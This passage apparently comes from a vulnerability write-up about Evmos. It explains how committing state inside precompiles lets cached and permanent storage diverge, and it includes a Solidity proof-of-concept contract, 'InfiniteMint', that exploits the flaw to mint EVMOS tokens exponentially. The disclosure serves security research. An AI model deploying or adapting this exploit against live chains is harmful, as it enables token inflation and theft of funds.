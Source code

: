 ```golang
	return nil
}
```

In the above code, permanent storage is written to by calls to s.keeper.*. For example, s.keeper.SetAccount() stores the account’s final balance and s.keeper.SetState() sets the final storage value at a given key of an account.

## Vulnerability Details and Exploitation

Evmos included a call to StateDB.Commit() whenever an Evmos-specific precompile was called (see examples in the [Distribution](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/precompiles/distribution/distribution.go#L103) and [Staking](https://github.com/evmos/evmos/blob/c6f7fcf208666ab8ca57e0ccff712cf8920a4e7d/precompiles/staking/staking.go#L102) precompiles). In doing so, it was possible to commit some states to permanent storage and, with some journal feng shui, omit portions of the state to cause a mismatch between cached and permanent storage.

The following exploit proof-of-concept abuses this to exponentially mint $EVMOS tokens.

```solidity
contract InfiniteMint {
    uint counter = 0;

    constructor() payable {}

    function exploit() external {
        counter++;

        for (uint i = 0; i < 20; i++) {
            try InfiniteMint(payable(address(this))).transferFunds(
	            bytes32(counter),
	            address(this).balance) {} // [1]
            catch {
                address t = predictAddress(bytes32(counter)); // [5]
                Target(t).withdraw(); // [6]
            }
            counter++; // [7]
        }

    }

    function transferFunds(bytes32 salt, uint v) external {
        new Target{value: v, salt: salt}(); // [2]

        DISTRIBUTION_CONTRACT.delegationTotalRewards(address(this)); // [3]

        revert(); // [4]
    }

    // predictAddress() and receive() functions omitted for brevity
}

contract Target {

    constructor() payable {}

    function withdraw() external {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
